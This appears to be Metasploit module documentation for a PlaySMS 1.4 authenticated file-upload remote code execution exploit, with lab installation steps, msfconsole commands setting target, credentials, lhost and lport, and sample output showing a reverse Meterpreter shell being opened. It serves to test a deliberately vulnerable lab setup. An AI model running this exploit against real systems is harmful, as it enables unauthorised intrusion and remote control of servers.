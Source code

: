 ## Description
this Module exploits a Authenticated File Upload and In filename parameter have Remote Code Excution Vulnerability in PlaySMS Version 1.4. This issue is caused by improper File name handling in sendfromfile.php file. Authenticated Users can upload a file and rename file name with a malicious payload. Additional information and vulnerabilities can be viewed on Exploit-DB [42044]( https://www.exploit-db.com/exploits/42003/))
**NOTE :** This Module is already PULLED but for some reason closed by author Check [#9840](https://github.com/rapid7/metasploit-framework/pull/9840)

## Vulnerable Application 
Available at [Exploit-DB](https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz)

## Vulnerable Application Installation Setup.
Download Application : ```wget https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz```

Extract : ```tar -xvf 577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz```

Move In WebDirectory : ```mv playsms-1.4/web/* /var/www/html/```

make config file: ```cp /var/www/html/config-dist.php /var/www/html/config.php```

Change Owner : ```chown -R www-data:www-data /var/www/html/```

Set DB creds in config.php File. And dump playsms-1.4/db/playsms.sql in your playsms database.

Now Visit : http://localhost/

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/playsms_filename_exec`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `set targeturi SecreTSMSgatwayLogin`
  7. Do: `set username touhid`
  8. Do: `set password diana`
  9. Do: `check`
```
[*] 10.22.1.10:80 The target appears to be vulnerable.
```
  10. Do: `set lport <port>`
  11. Do: `set lhost <ip>`
  12. Do: `exploit`
  13. You should get a shell.


## Scenarios
### Playsms on Ubuntu Linux
```
msf exploit(multi/http/playsms_filename_exec) > run                                                                                    
                                                                                                                                       
[*] Started reverse TCP handler on 10.22.1.3:4444                                                                                      
[+] X-CSRF-Token for login : 13bce9776cfc270a3779e8b557330cc2                                                                          
[*] Trying to Login ......                                                                                                             
[+] Authentication successful : [ touhid:diana ]                                                                                       
[+] X-CSRF-Token for upload : 2780d48dc11a482a58d8a95ad873c6cc                                                                         
[*] Trying to upload file with malicious Filename Field....                                                                            
[*] Sending stage (37775 bytes) to 10.22.1.15                                                                                          
[*] Sleeping before handling stage...                                                                                                  
[*] Meterpreter session 1 opened (10.22.1.3:4444 -> 10.22.1.15:38814) at 2018-04-08 13:45:34 +0530                                     
                                                                                                                                       
meterpreter >
```
